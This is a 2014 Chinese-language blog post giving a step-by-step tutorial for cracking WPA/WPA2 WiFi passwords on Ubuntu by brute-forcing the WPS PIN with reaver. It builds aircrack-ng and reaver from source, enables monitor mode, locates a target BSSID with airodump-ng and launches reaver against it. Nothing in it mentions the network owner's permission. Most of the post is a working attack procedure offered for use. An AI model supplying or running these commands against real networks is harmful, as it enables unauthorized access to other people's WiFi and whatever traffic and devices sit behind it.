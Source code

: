 ```yaml
---
layout: post
title: "Creak WPA2 WiFi password with reaver under Ubuntu"
date: Sat Mar  8 16:56:13 CST 2014
tags: [Ubuntu, software, creak]
categories: Software
code: 1
mathjax: 0
---
```

{% include JB/setup %}

使用reaver破解WPA2保护的WiFi密码
---

大部分路由器存在WPS(WiFi Protected Setup)漏洞，利用这个漏洞，只需最多尝试11000（4位数字+3位数字）个密码组合就可以破解出WPS registrar PIN密码，有了这个PIN密码就可以获得WiFi的密码了，也可以更改WiFi设置。[reaver官网](https://code.google.com/p/reaver-wps/)说破解需要的时间是4-10小时，依据WiFi信号强弱而定。

---

## 安装 aircrack-ng

~~~bash
sudo apt-get install libssl-dev
wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta2.tar.gz
tar -xzf aircrack-ng-1.2-beta2.tar.gz
cd aircrack-ng-1.2-beta2
make
sudo make install
~~~

注：aircrack的官网被墙
参考：<http://answertohow.blogspot.in/2012/10/how-to-install-aircrack-ng-on-ubuntu.html>

## 安装 reaver

~~~bash
sudo apt-get install libpcap-dev libsqlite3-dev iw
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar -xzf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
~~~

注：在reaver-1.4/docs里有关于reaver原理和WPS漏洞的说明
参考：<http://answertohow.blogspot.in/2012/11/how-to-install-reaver-on-ubuntu.html>

## 开始破解

### 将无线网卡设置为“监视”模式

~~~bash
sudo airmon-ng start wlan0
~~~

### 找到要破解的WiFi热点的BSSID

~~~bash
sudo airodump-ng mon0
~~~

按Ctrl + C 退出。从上面命令的输出可以找到要破解WiFi热点的BSSID，还可以确认其使用的加密方式是WPA/WPA2（在ENC这一列）。

### 启动reaver开始破解

~~~bash
reaver -i mon0 -b aa:bb:cc:dd:ee:ff -vv | tee crack.log
~~~

其中 aa:bb:cc:dd:ee:ff 换成上面得到的BSSID。然后就是祈祷了。

---

## 参考：

- [如何使用Reaver破解Wi-Fi网络的WPA密码](http://blog.csdn.net/tinyeyeser/article/details/17127805)（讲的是使用BT5刻光盘进行破解，如果不使用Linux, 可以看看这个）
- [How to Crack a Wi-Fi Network’s WPA Password with Reaver](http://answertohow.blogspot.in/2012/12/how-to-crack-wi-fi-networks-wpa.html)（这个链接讲到了如何加速破解，以及伪造MAC地址）

